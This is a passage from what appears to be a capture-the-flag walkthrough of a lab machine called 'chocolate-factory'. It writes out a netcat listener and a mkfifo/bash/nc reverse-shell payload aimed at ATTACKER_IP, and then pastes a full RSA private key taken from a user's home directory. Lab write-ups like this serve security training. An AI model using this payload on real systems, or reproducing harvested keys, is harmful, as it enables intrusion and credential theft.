 Let's get a reverse shell :)
```shell-session
## On our machine:
$ nc -nvlp 4444
```

I'll use a simple `nc mkfifo` reverse shell payload:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

Let's check what charlie's got for us:
```shell-session
www-data@chocolate-factory:/var/www/html$ ls -la /home/charlie
total 40
drwxr-xr-x 5 charlie charley 4096 Oct  7  2020 .
drwxr-xr-x 3 root    root    4096 Oct  1  2020 ..
-rw-r--r-- 1 charlie charley 3771 Apr  4  2018 .bashrc
drwx------ 2 charlie charley 4096 Sep  1  2020 .cache
drwx------ 3 charlie charley 4096 Sep  1  2020 .gnupg
drwxrwxr-x 3 charlie charley 4096 Sep 29  2020 .local
-rw-r--r-- 1 charlie charley  807 Apr  4  2018 .profile
-rw-r--r-- 1 charlie charley 1675 Oct  6  2020 teleport
-rw-r--r-- 1 charlie charley  407 Oct  6  2020 teleport.pub
-rw-r----- 1 charlie charley   39 Oct  6  2020 user.txt
www-data@chocolate-factory:/var/www/html$ file /home/charlie/teleport*
/home/charlie/teleport:     PEM RSA private key
/home/charlie/teleport.pub: OpenSSH RSA public key
```

I'll `cat` this stuff and paste to a file on my sys, but here's the contents:

`teleport`:
```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA4adrPc3Uh98RYDrZ8CUBDgWLENUybF60lMk9YQOBDR+gpuRW
1AzL12K35/Mi3Vwtp0NSwmlS7ha4y9sv2kPXv8lFOmLi1FV2hqlQPLw/unnEFwUb
L4KBqBemIDefV5pxMmCqqguJXIkzklAIXNYhfxLr8cBS/HJoh/7qmLqrDoXNhwYj
B3zgov7RUtk15Jv11D0Itsyr54pvYhCQgdoorU7l42EZJayIomHKon1jkofd1/oY
fOBwgz6JOlNH1jFJoyIZg2OmEhnSjUltZ9mSzmQyv3M4AORQo3ZeLb+zbnSJycEE
RaObPlb0dRy3KoN79lt+dh+jSg/dM/TYYe5L4wIDAQABAoIBAD2TzjQDYyfgu4Ej
Di32Kx+Ea7qgMy5XebfQYquCpUjLhK+GSBt9knKoQb9OHgmCCgNG3+Klkzfdg3g9
zAUn1kxDxFx2d6ex2rJMqdSpGkrsx5HwlsaUOoWATpkkFJt3TcSNlITquQVDe4tF
w8JxvJpMs445CWxSXCwgaCxdZCiF33C0CtVw6zvOdF6MoOimVZf36UkXI2FmdZFl
kR7MGsagAwRn1moCvQ7lNpYcqDDNf6jKnx5Sk83R5bVAAjV6ktZ9uEN8NItM/ppZ
j4PM6/IIPw2jQ8WzUoi/JG7aXJnBE4bm53qo2B4oVu3PihZ7tKkLZq3Oclrrkbn2
EY0ndcECgYEA/29MMD3FEYcMCy+KQfEU2h9manqQmRMDDaBHkajq20KvGvnT1U/T
RcbPNBaQMoSj6YrVhvgy3xtEdEHHBJO5qnq8TsLaSovQZxDifaGTaLaWgswc0biF
uAKE2uKcpVCTSewbJyNewwTljhV9mMyn/piAtRlGXkzeyZ9/muZdtesCgYEA4idA
KuEj2FE7M+MM/+ZeiZvLjKSNbiYYUPuDcsoWYxQCp0q8HmtjyAQizKo6DlXIPCCQ
RZSvmU1T3nk9MoTgDjkNO1xxbF2N7ihnBkHjOffod+zkNQbvzIDa4Q2owpeHZL19
znQV98mrRaYDb5YsaEj0YoKfb8xhZJPyEb+v6+kCgYAZwE+vAVsvtCyrqARJN5PB
la7Oh0Kym+8P3Zu5fI0Iw8VBc/Q+KgkDnNJgzvGElkisD7oNHFKMmYQiMEtvE7GB
FVSMoCo/n67H5TTgM3zX7qhn0UoKfo7EiUR5iKUAKYpfxnTKUk+IW6ME2vfJgsBg
82DuYPjuItPHAdRselLyNwKBgH77Rv5Ml9HYGoPR0vTEpwRhI/N+WaMlZLXj4zTK
37MWAz9nqSTza31dRSTh1+NAq0OHjTpkeAx97L+YF5KMJToXMqTIDS+pgA3fRamv
ySQ9XJwpuSFFGdQb7co73ywT5QPdmgwYBlWxOKfMxVUcXybW/9FoQpmFipHsuBjb
Jq4xAoGBAIQnMPLpKqBk/ZV+HXmdJYSrf2MACWwL4pQO9bQUeta0rZA6iQwvLrkM
Qxg3lN2/1dnebKK5lEd2qFP1WLQUJqypo5TznXQ7tv0Uuw7o0cy5XNMFVwn/BqQm
G2QwOAGbsQHcI0P19XgHTOB7Dm69rP9j1wIRBOF7iGfwhWdi+vln
-----END RSA PRIVATE KEY-----
```
